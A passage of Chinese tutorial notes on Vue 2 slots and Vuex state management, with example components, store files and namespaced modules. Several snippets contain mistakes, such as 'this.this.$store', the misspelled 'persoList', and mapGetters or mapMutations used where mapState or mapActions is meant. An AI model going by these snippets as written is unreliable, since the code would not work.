    <h1>使用具名插槽,同时使用多个插槽，不同插槽对应不同内容</h1>
    <div class="container">
      <Category3 title="美食">
        <!-- slot属性指定内容放入对应名称的插槽 -->
        
        <a slot="footer" href="www.baidu.com">更多美食</a>
      </Category3>
      <Category3 title="游戏">
        <ul slot="center">
          <li v-for="(game, index) in games" :key="index">
            {{ game }}
          </li>
        </ul>
        <!-- 同名插槽不是覆盖内容，而是追加内容 -->
        <a slot="footer" href="www.baidu.com">单击游戏</a>
        <a slot="footer" href="www.baidu.com">网络游戏</a>
        <!-- footer可直接写在外部容器，容器内部内容就不用再指定了 -->
        <div class="foot" slot="footer">
          <a href="www.baidu.com">单击游戏</a>
          <a href="www.baidu.com">网络游戏</a>
        </div>
      </Category3>
      <Category3>
        <video slot="center" src="./assets/aaa.mp4" controls></video>
        <!-- 使用template可以在不影响结构的情况下指定一个插槽名,且有最新的写法就是v-slot -->
        <!-- v-slot写法只能在template使用 -->
        <template v-slot:footer>
          <div class="foot">
            <a href="www.baidu.com">经典</a>
            <a href="www.baidu.com">热门</a>
            <a href="www.baidu.com">推荐</a>
          </div>
          <h4>欢迎看电影</h4>
        </template>
      </Category3>
    </div>

    <h1>作用域插槽,相当于插槽传递数据，让没有数据的组件获得传递的数据</h1>
    <div class="container">
      <Category4 title="游戏">
        <!-- 要获得传入的数据，结构的外部必须包裹一个template -->
        <!-- 使用scope属性接收数据，其数据是一个对象，包含传入的数据名与数据值，传入的数据不一定只有一个是可以有多个的 -->
        <template scope="mydata">
          <ul>
            <li v-for="(item, index) in mydata.mg" :key="index">
              {{ item }}
            </li>
          </ul>
        </template>
      </Category4>

      <Category4 title="游戏">
        <!-- 要获得传入的数据，结构的外部必须包裹一个template -->
        <!-- 使用scope属性接收数据，其数据是一个对象，包含传入的数据名与数据值，传入的数据不一定只有一个是可以有多个的 -->
        <template scope="mydata1">
          <ol>
            <li style='color:red' v-for="(item, index) in mydata1.mg" :key="index">
              {{ item }}
            </li>
          </ol>
          <h4>{{mydata1.x}}</h4>
        </template>
      </Category4>

      <Category4 title="游戏">
        <!-- 支持ES6解构赋值 -->
        <template scope="{mg}">
          <h4 style='color:green'  v-for="(item, index) in mg" :key="index">
            {{ item }}
          </h4>
        </template>
      </Category4>

      <Category4 title="游戏">
        <!-- 最新的写法slot-scope可以替换scope -->
        <template slot-scope="{mg,x}">
          <h4 v-for="(item, index) in mg" :key="index">
            {{ item }}
          </h4>
          <h4>{{x}}</h4>
        </template>
      </Category4>
    </div>
  </div>
</template>

<script>
import Category from "./components/Category.vue";
import Category2 from "./components/Category2.vue";
import Category3 from "./components/Category3.vue";
import Category4 from "./components/Category4.vue";
export default {
  name: "App",
  components: { Category, Category2, Category3, Category4 },
  data() {
    return {
      foods: ["鱼肉", "烧烤", "火锅", "牛肉"],
      games: ["王者荣耀", "LOL", "宝可梦", "超级玛丽"],
      films: ["《你好》", "《基督山伯爵》", "《异变》", "《哪吒》"]
    };
  }
};
</script>

<style>
.container,
.foot {
  display: flex;
  justify-content: space-around;
}
video {
  width: 100%;
}
h4 {
  text-align: center;
}
</style>
```

不使用插槽，`Category.vue`文件

```vue
<template>
  <div class="category">
    <h3>{{ title }}分类</h3>
    <ul>
      <li v-for="(item, index) in dataList" :key="index">
        {{ item }}
      </li>
    </ul>
  </div>
</template>

<script>
export default {
  name: "Category",
  props: ["dataList", "title"]
};
</script>

<style scoped>
.category {
  background-color: skyblue;
  width: 200px;
  height: 300px;
}

h3 {
  text-align: center;
  background-color: orange;
}
</style>
```

效果


默认插槽，`Category2.vue`文件

```vue
<template>
  <div class="category">
    <h3>{{ title }}分类</h3>
    <!-- slot就是插槽的意思，主要就是为了标记位置，让vue知道组件标签体的内容该放到该位置 -->
    <!-- 本质就是挖个坑，等着组件的使用者进行填充 -->
    <slot>默认值，当使用者没有传递具体结构时内容会展示</slot>
  </div>
</template>

<script>
export default {
  name: "Category2",
  props: ["title"]
};
</script>

<style scoped>
.category {
  background-color: skyblue;
  width: 200px;
  height: 300px;
}

h3 {
  text-align: center;
  background-color: orange;
}

img {
  width: 100%;
}
</style>
```

效果


具名插槽，`Category3.vue`文件

```vue
<template>
  <div class="category">
    <h3>{{ title }}分类</h3>
    <!-- 多个插槽，如果没有每个插槽都会对应组件内部的全部内容,有name名称，每个插槽内容就是对应名称的内容 -->
    <slot name="center">默认值，当使用者没有传递具体结构时内容会展示1</slot>
    <slot name="footer">默认值，当使用者没有传递具体结构时内容会展示2</slot>
  </div>
</template>

<script>
export default {
  name: "Category3",
  props: ["title"]
};
</script>

<style scoped>
.category {
  background-color: skyblue;
  width: 200px;
  height: 300px;
}

h3 {
  text-align: center;
  background-color: orange;
}

img {
  width: 100%;
}
</style>
```

效果


作用域插槽，`Category4.vue`文件

```vue
<template>
  <div class="category">
    <h3>{{ title }}分类</h3>
    <!-- 传递mygames数据给插槽使用者 可以同时传递多个数据mg x都是传递的数据-->
    <slot :mg="mygames" x="hello">插槽默认内容</slot>
  </div>
</template>

<script>
export default {
  name: "Category",
  props: ["title"],
  //数据是在子组件中的
  data() {
    return {
      mygames: ["王者荣耀", "LOL", "宝可梦", "超级玛丽"]
    };
  }
};
</script>

<style scoped>
.category {
  background-color: skyblue;
  width: 200px;
  height: 300px;
}

h3 {
  text-align: center;
  background-color: orange;
}
</style>
```

效果


## 二十、Vuex(重点)

### 20.1 初识Vuex

Vuex是专门在Vue中实现**集中式状态（数据）管理**的一个**Vue插件**，对vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于**任意组件间通信**。

Vuex适用于多个组件依赖**同一状态(数据)**或者来自不同组件的行为需要变更**同一状态(数据)**。

github地址：https://github.com/vuejs/vuex

**案例：实现多组件共享数据x**，完成对x的读取与修改，通过该案例理解Vuex的功能。

全局事件总线的实现


vuex的实现


### 20.2 Vuex的工作原理

Vuex工作流程图如下，核心就是4个流程dispatch、commit、mutate、render和三个对象Actions、Mutations、State。


Vuex使用流程如下：

1. **安装Vuex**,安装指令为：`npm i vuex@3`，如果默认安装会安装`Vuex4`版本以上的，只能在vue3使用，这里为了vue2能用就安装`Vuex3`版本。
2. 引入Vuex并使用Vuex插件。`import Vuex from "vuex"`+`Vue.use(Vuex)`;
3. 创建store文件，有两种方式:
   + 一是在src下创建**vuex文件夹**，vuex文件夹中创建一个`store.js`文件；
   + 二是在src下创建**store文件夹**，store文件夹中创建一个`index.js`文件。(官方推荐)
4. 编写store文件内容，核心是创建store对象并导出；
5. 在main.js中引入store文件，并在new Vue上配置`store`对象；
6. 编写具体的代码方法，完善`Actions`、`Mutations`、`State`对象内容；
7. 扩展配置项`getters`对象，当state中的数据需要经过加工后再使用，可以使用`getters`进行加工，**getters相当于Vuex中的计算属性**。不同之处就是Vue中计算属性是针对data的，Vuex中计算属性是针对state的。**getters中的数据也是全局共享的**。

**案例：求和案例**。

非Vuex版本，纯粹vue版本的sum是当前组件管理的，没有被共享。`Count.vue`文件

```vue
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "Count",
  data() {
    return {
      sum: 0, //和
      n: 1 //用户选中的数字
    };
  },
  methods: {
    increment() {
      this.sum += this.n;
    },
    decrement() {
      this.sum -= this.n;
    },
    incrementOdd() {
      //和不为偶数时执行
      if (this.sum % 2) {
        this.sum += this.n;
      }
    },
    incrementWait() {
      //等500ms后再加
      setTimeout(() => {
        this.sum += this.n;
      }, 500);
    }
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

Vuex版本的,sum是Vuex管理的，全部组件共享。

store文件`index.js`内容,注意`Vue.use(Vuex)`必须写在该文件中才不会报错

```js
//该文件用于创建Vuex最核心的store

//引入VueX，Vue,Vuex首字母大写更标准
import Vuex from "vuex";
import Vue from "vue";

//使用插件,使用了插件后，new Vue的配置项中就新增了一个store;
//配置好后，vm和所有的vc身上都会有一个$store属性;
//没有使用Vuex插件配置store是无效的。
//脚手架解析import代码在其他代码之前，因此即使Vue.use(Vuex)放到import之前也是在import之后执行的，因此必须写在store文件中
Vue.use(Vuex);

//准备actions对象——用于响应组件中的动作
const actions = {
  //配置add方法,参数1是context上下文对象，是一个迷你的store  参数2是dispatch传入的值
  //上下文对象中除了commit方法外，还有dispatch，getter方法以及state，
  //说明Action中除了可以调用commit外，还可以调用dispatch，形成Actions连续调用
  add: function (context, value) {
    console.log("actions中的add被调用", context, value);
    // context.dispatch('addOdd', value);//Actions连续调用
    //mutations中的方法最好写大写的，方便区分
    //Actions中也可以直接操作数据，不通过mutations对象，这样虽然可以得到正确结果，但开发者工具就无用了，因为它只监测mutations的内容
    // context.state.sum += value;
    context.commit("ADD", value);
  },
  //   sub(context, value) {
  //     console.log("actions中的sub被调用");
  //     context.commit("SUB", value);
  //   },
  addOdd(context, value) {
    console.log("actions中的addOdd被调用");
    //上下文中的state可以用于条件判断
    if (context.state.sum % 2) {
      context.commit("ADD", value);
    }
  },
  addWait(context, value) {
    console.log("actions中的addWait被调用");
    setTimeout(() => {
      context.commit("ADD", value);
    }, 500);
  }
};

//准备mutations对象——用于操作数据(state)
const mutations = {
  //函数简写 参数1是state对象  参数2是commit传入的值
  ADD(state, value) {
    console.log("mutations中的ADD被调用", state, value);
    //mutations中的方法最好写大写的，方便区分
    state.sum += value;
  },
  SUB(state, value) {
    state.sum -= value;
  }
};

//准备state对象——用于存储数据
const state = {
  //管理公共的sum数据
  sum: 0
};

//准备getters对象——用于将state中的数据进行加工,getters的内容也是可以直接在开发者工具中看到的
const getters = {
  //可以看作是计算属性，它默认有一个参数state
  bigSum(state) {
    return state.sum * 10;
  }
};

//实例化并导出store对象
export default new Vuex.Store({
  actions,
  mutations,
  state,
  //配置getters
  getters
});
```

`main.js`文件，核心就是配置store对象，这里是`store:store`的简写

```js
import Vue from "vue";
import App from "./App.vue";

//引入store,index.js可省略不写
import store from "./store";

Vue.config.productionTip = false;

const vm = new Vue({
  render: (h) => h(App),
  //配置store对象
  store
}).$mount("#app");

console.log(vm);
```

`MyCount.vue`文件

```vue
<template>
  <div>
    <h1>当前求和为：{{ $store.state.sum }}</h1>
    <!-- 使用getters的内容 -->
    <h3>当前求和放大10倍为：{{ $store.getters.bigSum }}</h3>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "MyCount",
  data() {
    return {
      n: 1 //用户选中的数字
    };
  },
  methods: {
    increment() {
      //触发Vuex的dispatch方法
      this.$store.dispatch("add", this.n);
    },
    decrement() {
      //减法
      // this.$store.dispatch("sub", this.n);
      //action没有额外的业务逻辑可直接调用commit
      this.$store.commit("SUB", this.n);
    },
    incrementOdd() {
      //如果是奇数触发加法
      // if (this.$store.state.sum % 2) {
      //   this.$store.dispatch("add", this.n);
      // }
      //注意3：将业务逻辑写在Actions中，如果写在组件自身，且逻辑很复杂，则需要每个组件都写一遍，
      //写在Actions中就只需写一遍，所有组件都可通用
      this.$store.dispatch("addOdd", this.n);
    },
    incrementWait() {
      this.$store.dispatch("addWait", this.n);
    }
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

### 20.3 Vuex开发者工具

Vuex和Vue是同一开发团队制作的，因此Vuex的开发者工具和Vue的开发者工具是同一个。

Vuex页面结构


页面操作按钮功能


### 20.4 Vuex中的Map映射

Map是**映射**的意思，它主要是Vuex给程序员优化代码用的，可以**快速帮我们生成固定的代码**。本质就是**用代码生成代码**。

Vuex中有4个常用map映射：(要完成代码映射，就需要把不同的内容传入比如**方法名sum**和操作的**属性名sum**，相同的内容代码自动生成)

1. **mapState方法**：用于帮助我们映射`state`中的数据为计算属性

   ```js
   computed:{
       //借助mapState生成计算属性，sum、school、subject(对象写法)
       ...mapState({sum:'sum',school:'school',subject:'subject'}),
       //借助mapState生成计算属性，sum、school、subject(数组写法)
       ...mapGetters(['sum','school','subject']),
   }
   ```

2. **mapGetters方法**：用于帮助我们映射`getters`中的数据为计算属性

   ```js
   computed:{
       //借助mapGetters生成计算属性，bigSum(对象写法)
       ...mapGetters({bigSum:'bigSum'}),
       //借助mapGetters生成计算属性，bigSum(数组写法)
       ...mapGetters(['bigSum']),
   }
   ```

3. **mapActions方法**：用于帮助我们生成与`actions`对话的方法，即包含`$store.dispatch(xxx)`的函数

   ```js
   methods:{
       //借助mapActions生成:increamentOdd、incrementWait方法(对象写法)
       ...mapActions({increamentOdd:'jiaOdd',incrementWait:'jiaWait'}),
       //借助mapActions生成:jiaOdd、jiaWait方法(数组写法)
        ...mapActions(['jiaOdd','jiaWait']),
   }
   ```

4. **mapMutations方法**：用于帮助我们生成与`mutations`对话的方法，即包含`$store.commit(xxx)`函数

   ```js
   methods:{
       //借助mapMutations生成:increament、decrement方法(对象写法)
       ...mapMutations({increamentOdd:'JIA',incrementWait:'JIAN'}),
       //借助mapMutations生成:JIA、JIAN方法(数组写法)
       ...mapMutations(['JIA','JIAN']),
   }
   ```

   > [!NOTE]
   >
   > `mapActions`与`mapMutations`使用时，若需要传递参数，则需要在**模板绑定事件**时就传递好参数，否则参数是**事件对象**。

具体案例：先在`store.js`中state中新增两个属性

```js
const state = {
  //管理公共的sum数据
  sum: 0,
  school: "北大",
  subject: "Vue"
};
```

原本的写法


利用计算属性优化后的代码

```vue
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <!-- 使用getters的内容 -->
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}学习{{ subject }}</h3>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "MyCount2",
  data() {
    return {
      n: 1 //用户选中的数字
    };
  },
  computed: {
    //利用计算属性进行优化，格式固定
    sum() {
      return this.$store.state.sum;
    },
    school() {
      return this.$store.state.school;
    },
    subject() {
      return this.$store.state.subject;
    },
    bigSum() {
      return this.$store.state.bigSum;
    }
  },
  methods: {
    increment() {
      //触发Vuex的dispatch方法
      this.$store.dispatch("add", this.n);
    },
    decrement() {
      //减法
      // this.$store.dispatch("sub", this.n);
      //action没有额外的业务逻辑可直接调用commit
      this.$store.commit("SUB", this.n);
    },
    incrementOdd() {
      //如果是奇数触发加法
      // if (this.$store.state.sum % 2) {
      //   this.$store.dispatch("add", this.n);
      // }
      //将业务逻辑写在Actions中
      this.$store.dispatch("addOdd", this.n);
    },
    incrementWait() {
      this.$store.dispatch("addWait", this.n);
    }
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

使用map生成代码映射，进一步简化代码，对比上边代码

```vue
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <!-- 使用getters的内容 -->
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}学习{{ subject }}</h3>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <!-- 原本函数模板的写法 -->
    <!-- <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button> -->
    <!-- 需要传递参数才行才能让生成的函数有效 -->
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
//引入map映射
import { mapState, mapGetters, mapActions, mapMutations } from "vuex";

export default {
  name: "MyCount2",
  data() {
    return {
      n: 1 //用户选中的数字
    };
  },
  computed: {
    // 这里是程序员自己写的计算属性
    // sum() {
    //   return this.$store.state.sum;
    // },
    // school() {
    //   return this.$store.state.school;
    // },
    // subject() {
    //   return this.$store.state.subject;
    // },
    // bigSum() {
    //   return this.$store.state.bigSum;
    // }

    // 使用映射函数mapState({ sum: "sum"})生成的内容：{sum:f},sum变量名，f是生成的函数，
    // 函数内容就是 function() { return this.$store.state.sum;}

    //1. 使用mapState映射生成的计算属性，在开发者工具上展示的位置也不同，自己写的计算属性在computed中，生成的属性在vuex bingdings中
    // mapState()函数生成内容是个对象，要放入计算属性中就需要展开放入，...表示对象内容展开是ES6的语法
    // 计算属性名称与state属性名可以不同名
    // ...mapState({'he':'sum',xuexiao:'school',xueke:'subject'})

    //注意对象中属性是字符串可以省略引号，属性值是字符串就不能省略引号,这里不可以直接使用对象简写，因为属性值不是变量而是字符串
    //使用map映射生成state属性 对象写法
    ...mapState({ sum: "sum", school: "school", subject: "subject" }),
    //使用map映射生成state属性 数组写法 需要属性名与属性值相同
    ...mapState(["sum", "school", "subject"]),

    //2.使用mapGetters映射生成的计算属性
    //  mapGetters使用方式跟mapState一样，只是生成getters中的内容
    ...mapGetters({ bigSum: "bigSum" }),
    //  数组写法
    ...mapGetters(["bigSum"])
  },
  methods: {
    //这里是程序员自己写的方法
    // increment() {
    //   this.$store.commit("ADD", this.n);
    // },
    // decrement() {
    //   this.$store.commit("SUB", this.n);
    // },
    // incrementOdd() {
    //   this.$store.dispatch("addOdd", this.n);
    // },
    // incrementWait() {
    //   this.$store.dispatch("addWait", this.n);
    // }

    // 使用mapMutations函数({ 'increment':'ADD'})生成的内容：{increment:f},increment变量名就是方法名，f是生成的     // 函数， 函数内容就是 function(value) { this.$store.commit("ADD", value);},其中value就是方法传递的参数，
    // 如果模板中没有写参数，默认就是事件对象Event,如果模板中写了参数就是传递过来的参数
      
    //3. 使用mapMutations生成commit方法 对象写法
    ...mapMutations({ increment: "ADD", decrement: "SUB" }),
    //   使用mapMutations生成commit方法 数组写法 要求属性名与属性值一致
    ...mapMutations(["ADD", "SUB"]),

    //4. 使用mapActions生成dispatch方法 其效果跟mapMutations类似 对象写法
    ...mapActions({ incrementOdd: "addOdd", incrementWait: "addWait" }),
    //   使用mapActions生成dispatch方法 数组写法 要求属性名与属性值一致
    ...mapMutations(["addOdd", "addWait"])
  },
  mounted() {
    //打印映射生成的对象内容
    console.log(mapState({ sum: "sum" }));
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

### 20.5 多组件共享数据

实现Count组件中可以访问Person组件相关数据，Person组件可以访问Count组件相关数据。

`store.js`文件

```js
//该文件用于创建Vuex最核心的store

//引入VueX，Vue,Vuex首字母大写更标准
import Vuex from "vuex";
import Vue from "vue";

//使用插件
Vue.use(Vuex);

//准备actions对象——用于响应组件中的动作
const actions = {
  // add: function (context, value) {
  //   console.log("actions中的add被调用", context, value);
  //   context.commit("ADD", value);
  // },
  addOdd(context, value) {
    console.log("actions中的addOdd被调用");
    //上下文中的state可以用于条件判断
    if (context.state.sum % 2) {
      context.commit("ADD", value);
    }
  },
  addWait(context, value) {
    console.log("actions中的addWait被调用");
    setTimeout(() => {
      context.commit("ADD", value);
    }, 500);
  }
};

//准备mutations对象——用于操作数据(state)
const mutations = {
  //函数简写 参数1是state对象  参数2是commit传入的值
  ADD(state, value) {
    console.log("mutations中的ADD被调用", state, value);
    //mutations中的方法最好写大写的，方便区分
    state.sum += value;
  },
  SUB(state, value) {
    state.sum -= value;
  },
  //添加人员
  ADD_PERSON(state, value) {
    console.log("mutations中的ADD_PERSON被调用", state, value);
    state.personList.unshift(value);
  }
};

//准备state对象——用于存储数据
const state = {
  //管理公共的sum数据
  sum: 0,
  school: "北大",
  subject: "Vue",
  personList: [{ id: "001", name: "张三" }]
};

//准备getters对象——用于将state中的数据进行加工
const getters = {
  //可以看作是计算属性，它默认有一个参数state
  bigSum(state) {
    return state.sum * 10;
  }
};

//实例化并导出store对象
export default new Vuex.Store({
  actions,
  mutations,
  state,
  //配置getters
  getters
});
```

`MyCount2.vue`文件

```vue
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <!-- 使用getters的内容 -->
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}学习{{ subject }}</h3>
    <!-- 实现组件间数据共享 -->
    <h3 style="color: red">Person组件的总人数是：{{ personList.length }}</h3>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
//引入map映射
import { mapState, mapGetters, mapActions, mapMutations } from "vuex";

export default {
  name: "MyCount2",
  data() {
    return {
      n: 1 //用户选中的数字
    };
  },
  computed: {
    ...mapState(["sum", "school", "subject", "personList"]),
    ...mapGetters({ bigSum: "bigSum" })
  },
  methods: {
    ...mapMutations({ increment: "ADD", decrement: "SUB" }),
    ...mapActions({ incrementOdd: "addOdd", incrementWait: "addWait" })
  },
  mounted() {
    // console.log(mapState({ sum: "sum" }));
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

`Person.vue`文件

```vue
<template>
  <div>
    <h1>人员列表</h1>
    <h3 style="color: red">Count组件求和为:{{ sum }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <ul>
      <li v-for="p in personList" :key="p.id">{{ p.name }}</li>
    </ul>
  </div>
</template>

<script>
import { nanoid } from "nanoid";
export default {
  name: "Person",
  data() {
    return {
      name: ""
    };
  },
  //亲自写计算属性接收数据
  computed: {
    personList() {
      return this.$store.state.personList;
    },
    sum() {
      return this.$store.state.sum;
    }
  },
  methods: {
    add() {
      const personObj = { id: nanoid(), name: this.name };
      //亲自调用方法触发mutations
      this.$store.commit("ADD_PERSON", personObj);
      //清空文本框
      this.name = "";
    }
  }
};
</script>

```

运行效果


### 20.6 Vuex模块化

Vuex模块化写法其实是对`store.js`文件配置的优化，以功能来分模块配置从而防止`store.js`文件过于臃肿不好维护。模块化还可以**解决命名冲突的问题**，可以让不同模块中出现相同的属性与方法。

**模块化+命名空间**的目的就是让代码更好维护，让多种数据分类更明确。

修改`store.js`文件

```js
//求和功能相关的配置
const countOptions = {
  //配置命名空间为true modules中配置的名称就能配置 开启命名空间
  namespaced: true,
  actions: {...},
  mutations: {...},
  state: {...},
  getters: {
    bigSum(state) {
      return state.sum * 10;
    }
  }
};

//人员管理功能相关的配置
const personOptions = {
  //配置命名空间为true modules中配置的名称就能配置  开启命名空间
  namespaced: true,
  actions: {...},
  mutations: {...},
  state: { personList: [{ id: "001", name: "张三" }] },
  getters: {}
};

//实例化并导出store对象
export default new Vuex.Store({
  //使用模块配置,每个模块中都有一套actions、mutations、state、getters
  modules: {
    countAbout: countOptions,
    personAbout: personOptions
  }
});
```

开启命名空间后，组件中读取state数据：

```js
//方式一:自己直接读取
this.this.$store.state.personAbout.persoList;
//方式二：借助mapState读取
...mapState('countAbout',['sum','school','subject'])
```

开启命名空间后，组件中读取getters数据：

```js
//方式一:自己直接读取
this.this.$store.getters['personAbout/firstPersoName'];
//方式二：借助mapGetters读取
...mapGetters('countAbout',['bigSum'])
```

开启命名空间后，组件中调用dispatch：

```js
//方式一:自己直接调用dispatch
this.this.$store.dispatch(['personAbout/addPersonWang'],person);
//方式二：借助mapActions读取
...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
```

开启命名空间后，组件中调用commit：

```js
//方式一:自己直接调用commit
this.this.$store.commit(['personAbout/ADD_PERSON'],person);
//方式二：借助mapActions读取
...mapActions('countAbout',{increment:'JIA',decrement:'SUB'})
```

### 20.7 模块化案例

实际操作以**多组件共享数据案例内容为例**，进行模块化优化。

`store.js`文件

```js
//该文件用于创建Vuex最核心的store

//引入VueX，Vue,Vuex首字母大写更标准
import Vuex from "vuex";
import Vue from "vue";

//使用插件
Vue.use(Vuex);

//求和功能相关的配置
const countOptions = {
  //配置命名空间为true modules中配置的名称就能配置 开启命名空间
  namespaced: true,
  actions: {
    addOdd(context, value) {
      console.log("actions中的addOdd被调用");
      //上下文中的state可以用于条件判断
      if (context.state.sum % 2) {
        context.commit("ADD", value);
      }
    },
    addWait(context, value) {
      console.log("actions中的addWait被调用");
      setTimeout(() => {
        context.commit("ADD", value);
      }, 500);
    }
  },
  mutations: {
    //函数简写 参数1是state对象  参数2是commit传入的值
    ADD(state, value) {
      console.log("mutations中的ADD被调用", state, value);
      //mutations中的方法最好写大写的，方便区分
      state.sum += value;
    },
    SUB(state, value) {
      state.sum -= value;
    }
  },
  state: {
    //管理公共的sum数据
    sum: 0,
    school: "北大",
    subject: "Vue"
  },
  getters: {
    //可以看作是计算属性，它默认有一个参数state
    bigSum(state) {
      return state.sum * 10;
    }
  }
};

//人员管理功能相关的配置
const personOptions = {
  //配置命名空间为true modules中配置的名称就能配置
  namespaced: true,
  actions: {},
  mutations: {
    //添加人员
    ADD_PERSON(state, value) {
      console.log("mutations中的ADD_PERSON被调用", state, value);
      state.personList.unshift(value);
    }
  },
  state: { personList: [{ id: "001", name: "张三" }] },
  getters: {}
};

//实例化并导出store对象
export default new Vuex.Store({
  //使用模块配置,每个模块中都有一套actions、mutations、state、getters
  modules: {
    countAbout: countOptions,
    personAbout: personOptions
  }
});
```

`MyCount2.vue`文件

```vue
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <!-- 使用getters的内容 -->
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }}学习{{ subject }}</h3>
    <!-- 实现组件间数据共享 -->
    <h3 style="color: red">Person组件的总人数是：{{ personList.length }}</h3>
    <!-- .number是强制转化为数字值返回 -->
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
  </div>
</template>

<script>
//引入map映射
import { mapState, mapGetters, mapActions, mapMutations } from "vuex";

export default {
  name: "MyCount2",
  data() {
    return {
      n: 1 //用户选中的数字
    };
  },
  computed: {
    // ...mapState(["sum", "school", "subject", "personList"]),
    //写法一 直接读取模块,读取数据就使用countAbout.sum读取
    // ...mapState(["countAbout", "personAbout"]),
    //写法二 需要给模块配置namespaced属性为true才能有效,可以通过模块名称读取

    ...mapState("countAbout", ["sum", "school", "subject"]),
    ...mapState("personAbout", ["personList"]),

    ...mapGetters("countAbout", { bigSum: "bigSum" })
  },
  methods: {
    // 配置模块命名空间
    ...mapMutations("countAbout", { increment: "ADD", decrement: "SUB" }),
    ...mapActions("countAbout", {
      incrementOdd: "addOdd",
      incrementWait: "addWait"
    })
  },
  mounted() {
    console.log(this.$store);
  }
};
</script>

<style>
button {
  margin-left: 5px;
}
</style>
```

`Person.vue`文件

```vue
<template>
  <div>
    <h1>人员列表</h1>
    <h3 style="color: red">Count组件求和为:{{ sum }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <ul>
      <li v-for="p in personList" :key="p.id">{{ p.name }}</li>
    </ul>
  </div>
</template>

<script>
import { nanoid } from "nanoid";
export default {
  name: "Person",
  data() {
    return {
      name: ""
    };
  },
  //亲自写计算属性接收数据
  computed: {
    personList() {
      return this.$store.state.personAbout.personList;
    },
    sum() {
      // 读取对应模块下的属性
      return this.$store.state.countAbout.sum;
    }
  },
  methods: {
    add() {
      const personObj = { id: nanoid(), name: this.name };
      //亲自调用方法触发mutations,模块化读取的写法
      this.$store.commit("personAbout/ADD_PERSON", personObj);
      //清空文本框
      this.name = "";
    }
  }
};
</script>

<style></style>
```

目前每个模块的内容不多，还可以写在一个文件中，但一旦内容多了，最好是**每个模块内容使用单独文件保存**。

`count.js`文件保存count模块的内容

```js
//求和功能相关的配置
const countOptions = {
  //配置命名空间为true modules中配置的名称就能配置
  namespaced: true,
  actions: {
    addOdd(context, value) {
      console.log("actions中的addOdd被调用");
      //上下文中的state可以用于条件判断
      if (context.state.sum % 2) {
        context.commit("ADD", value);
      }
    },
    addWait(context, value) {
      console.log("actions中的addWait被调用");
      setTimeout(() => {
        context.commit("ADD", value);
      }, 500);
    }
  },
  mutations: {
    //函数简写 参数1是state对象  参数2是commit传入的值
    ADD(state, value) {
      console.log("mutations中的ADD被调用", state, value);
      //mutations中的方法最好写大写的，方便区分
      state.sum += value;
    },
    SUB(state, value) {
      state.sum -= value;
    }
  },
  state: {
    //管理公共的sum数据
    sum: 0,
    school: "北大",
    subject: "Vue"
  },
  getters: {
    //可以看作是计算属性，它默认有一个参数state
    bigSum(state) {
      return state.sum * 10;
    }
  }
};

export default countOptions;
```

`person.js`文件保存person模块的内容,新增一些功能内容让文件更丰富

```js
import axios from "axios";
import { nanoid } from "nanoid";
//人员管理功能相关的配置
export default {
  //配置命名空间为true modules中配置的名称就能配置
  namespaced: true,
  actions: {
    //只添加姓王的人
    addPersonWang(context, value) {
      if (value.name.indexOf("王") === 0) {
        context.commit("ADD_PERSON", value);
      } else {
        alert("请添加一个姓王的人");
      }
    },
    //使用axios从服务器获取一个人名，value不需要传入
    addPersonServer(context) {
